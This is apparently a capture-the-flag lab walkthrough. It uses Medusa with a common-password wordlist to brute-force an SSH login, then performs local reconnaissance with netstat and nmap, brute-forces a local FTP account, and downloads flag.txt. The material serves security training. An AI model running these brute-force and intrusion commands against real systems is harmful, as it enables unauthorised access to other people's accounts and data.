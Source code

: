 The following command serves as our starting point:
```bash
medusa -h <IP> -n <PORT> -u sshuser -P 2023-200_most_used_passwords.txt -M ssh -t 3
```
- `-h <IP>`: Specifies the target system's IP address.
- `-n <PORT>`: Defines the port on which the SSH service is listening (typically port 22).
- `-u sshuser`: Sets the username for the brute-force attack.
- `-P 2023-200_most_used_passwords.txt`: Points Medusa to a wordlist containing the 200 most commonly used passwords in 2023. The effectiveness of a brute-force attack is often tied to the quality and relevance of the wordlist used.
- `-M ssh`: Selects the SSH module within Medusa, tailoring the attack specifically for SSH authentication.
- `-t 3`: Dictates the number of parallel login attempts to execute concurrently. Increasing this number can speed up the attack but may also increase the likelihood of detection or triggering security measures on the target system.
> Upon execution, Medusa will display its progress as it cycles through the password combinations. The output will indicate a successful login, revealing the correct password.
### Gaining Access
Once we find the password, we can establish a connection with SSH:
```bash
ssh sshuser@<IP> -p PORT
```
### Expanding the Attack Surface
Once inside the system, the next step is identifying other potential attack surfaces. Using `netstat` (within the SSH session) to list open ports and listening services, you discover a service running on port 21.
```bash
netstat -tulpn | grep LISTEN
```

Further reconnaissance with `nmap` (within the SSH session) confirms this finding as an ftp server.
```bash
nmap localhost
```
### Targeting the FTP Server
Now we can proceed to brute-force FTPs authentication mechanism.

If we explore the `/home` directory on the target system, we see an `ftpuser` folder, which implies the likelihood of the FTP server username being `ftpuser`. Based on this, we can modify our Medusa command accordingly:
```bash
medusa -h 127.0.0.1 -u ftpuser -P 2020-200_most_used_passwords.txt -M ftp -t 5 | grep "ACCOUNT FOUND"

```
- `-h 127.0.0.1`: Targets the local system, as the FTP server is running locally. Using the IP address tells medusa explicitly to use IPv4.
- `-u ftpuser`: Specifies the username `ftpuser`.
- `-M ftp`: Selects the FTP module within Medusa.
- `-t 5`: Increases the number of parallel login attempts to 5.
### Retrieving The Flag
Upon successfully cracking the FTP password, establish an FTP connection. Within the FTP session, use the `get` command to download the `flag.txt` file, which may contain sensitive information.:
```bash
ftp ftp://ftpuser:<FTPUSER_PASSWORD>@localhost
```
```bash
get flag.txt
```